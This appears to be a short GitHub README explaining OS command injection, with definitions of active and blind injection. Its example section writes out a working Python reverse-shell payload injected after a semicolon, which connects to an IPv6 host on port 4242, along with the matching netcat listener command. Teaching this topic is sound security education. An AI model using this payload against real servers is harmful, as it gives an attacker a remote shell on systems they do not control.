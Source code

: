  #                                         💪 ` Web-Vulnerabilites ` 💪




## 🥇01. OS Command Injection :

![command-injection-vulnerability](https://user-images.githubusercontent.com/55437834/116801682-d6c45080-ab2d-11eb-8c38-cae9126833af.jpg)


### What is OS Command Injection ?

OS Command Injection is server side  web vulnerablities where attacker execute :eyes:" system command"  like id, whoami ,uname etc os command  .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection
                                                                                       

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute :eyes: "system command "  like ls ,server will return result of ls .(Attacker will see the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seeing the result of :eyes: "system command " you must upload reverse shell on target / victim server . After uploading  reverse shell on victim server , you must be  listen uploaded shell on attacker terminal using nc command . 


### Example :
         
        ♥️  1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

           2. listen reverse shell :

                                 nc -lnvp 4242
